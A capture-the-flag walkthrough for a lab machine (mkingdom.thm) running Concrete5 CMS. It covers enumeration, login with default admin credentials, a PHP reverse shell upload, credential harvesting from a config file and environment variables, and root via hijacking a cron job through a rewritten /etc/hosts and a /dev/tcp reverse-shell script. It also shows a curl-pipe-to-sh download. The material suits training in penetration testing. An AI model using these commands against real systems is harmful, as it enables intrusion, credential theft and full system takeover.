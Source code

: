 # How to access the admin panel
Scan the website using nmap:
<pre>nmap -sV VICTIM_IP_ADDRESS </pre>
Nmap reveals that port 85 is open:
![image](https://github.com/user-attachments/assets/d0e4f543-0a32-4e3a-9baf-21c18ce4db59)


After nmap, run gobuster. From the results, we find /app directory:
<pre>gobuster dir -u "http://VICTIM_IP_ADDRESS:85/" -w /usr/share/wordlists/dirb/small.txt -t 64</pre>
![Bez tytułu](https://github.com/user-attachments/assets/5cf1f095-12b2-4022-abd1-26df6afa62e9)

Click the "Jump" button, which triggers a redirect:
![image](https://github.com/user-attachments/assets/5a8c3552-8589-41f3-8828-bd6d1a132a19)

Further enumeration reveals a database.php file located in /config, which will be useful later:
![image](https://github.com/user-attachments/assets/366199be-a023-4fb6-9a7c-64de12f49556)

At the bottom of the page, there's information indicating that the site uses the Concrete5 CMS:
![image](https://github.com/user-attachments/assets/724469aa-2898-40f5-9a0c-3b57745afaa0)

Clicking the "Log in" button redirects to the login panel, which shows a standard admin login form. The default credentials are:
<pre>Username: admin</pre>
<pre>Password: password</pre>

<br><br>
# How to get a reverse shell
## On the victim machine
Go to System Settings → Files → Allowed File Types. Add php to the list of allowed file types:
![image](https://github.com/user-attachments/assets/9a76b22e-0758-4501-8a17-ca3c46b68cc1)

Create a shell.php file on the attacker's machine: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php   
Upload a PHP reverse shell:
![image](https://github.com/user-attachments/assets/8c92daa3-47ef-423f-96d3-76a197717059)  

A popup window will show the path to the uploaded file:
<pre>http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php</pre>

## On the attacker machine
Start a listener:
<pre>nc -lvnp 4444</pre>

Go back to browser and in new tab go to:
<pre>http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php</pre>

Once the shell is triggered, upgrade the session:
<pre>python3 -c 'import pty; pty.spawn("/bin/bash")'</pre>  
![image](https://github.com/user-attachments/assets/9d5bac6d-1e00-4ef2-96ed-1b3a7aa1d1cc)

<br><br>
# Get User Credentials
Go back to the database.php file found during gobuster enumeration. It contains credentials for the toad user:
![image](https://github.com/user-attachments/assets/c177072f-b9d0-45c7-b119-4bcc48774eca)

Switch to that user:
<pre>su toad</pre>  
In the toad home directory, there's no user.txt or root.txt, but we can extract credentials for mario from the environment variables:
![image](https://github.com/user-attachments/assets/f467a7ab-fe55-4fb8-ad63-98154e493d70)
Use CyberChef to decode the Base64 password. The result: <pre>ikaTeNTANtES</pre>

Now log in as mario. Inside the mario directory, use less to read the user.txt flag:
![image](https://github.com/user-attachments/assets/0834e2fd-2a48-4ec2-a16a-f84c0b150d06)
Root access is required for the root.txt.
 
<br><br>
# How to get root
We’ll use:
1.	linpeas.sh: http://michalszalkowski.com/security/linpeas/
2.	Documentation: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

## On the attacker machine
Download linpeas.sh:
<pre>wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh chmod +x linpeas.sh</pre>

Start a local HTTP server:
<pre>sudo python3 -m http.server 9000</pre>

## On thevvictim machine
Download and run linpeas.sh:
<pre>curl <attacker_machine_ip_adress>/linpeas.sh | sh</pre>

During the scan we can see that /etc/hosts is writable.
![image](https://github.com/user-attachments/assets/9ec6d78b-bf12-4972-990f-988be268f138)

After checking all running processes and cron jobs, there is a cron job which executes with root privilege every minute: 
<pre>curl mkingdom.thm:85/app/castle/application/counter.sh</pre>pre>

To redirect mkingdom.thm to the attacker's IP:
<pre>echo "10.10.6.168   mkingdom.thm" >> /etc/hosts</pre>  

However, this alone doesn't work, because cron still resolves to 127.0.1.1:
![image](https://github.com/user-attachments/assets/db84ae46-3c58-4a6a-8c23-40b4bc6fa090)

The workaround is to overwrite the entire file manually:
<pre> cat << EOF > /tmp/hosts_fixed
127.0.0.1       localhost
127.0.0.1       backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.10.6.168     mkingdom.thm
EOF
</pre>

Copy custom /tmp/hosts_fixed file and overwrite the system’s /etc/hosts file with it.
<pre>cp /tmp/hosts_fixed /etc/hosts</pre>

As shown below, the cron job is configured to reach the attacker's machine:
![image](https://github.com/user-attachments/assets/466df7d9-9eba-4e64-8704-baf2c15270f8)

## On attacker machine
Create the folder structure:
<pre>mkdir -p app/castle/application
cd app/castle/application
</pre>

After that create counter.sh:
<pre>cat << EOF > counter.sh
#!/bin/bash
bash -i >& /dev/tcp/<attacker_machine_ip_address>/4444 0>&1
EOF
</pre>

Lastly change permission to executable:
<pre>chmod +x counter.sh</pre>

Full process:
![image](https://github.com/user-attachments/assets/bdcd3fc4-7ebe-40b0-9e55-fc67dca3001b)

In two separate terminals run:
<pre>python3 -m http.server 85</pre>
<pre>nc -lvnp 4444</pre>

Wait for cron to trigger:
![image](https://github.com/user-attachments/assets/f390b7ce-7501-4bf4-b7c8-bccf738083ad)
![image](https://github.com/user-attachments/assets/f734f8b5-5c6b-46cf-a38d-204315b04709)

Know we reverse shell as root:
![image](https://github.com/user-attachments/assets/d09eb426-53c8-4e87-81af-c42d098a7f0c)

Use less to check flag:
![image](https://github.com/user-attachments/assets/e03dee91-a4fe-4886-be92-681dbabda795)
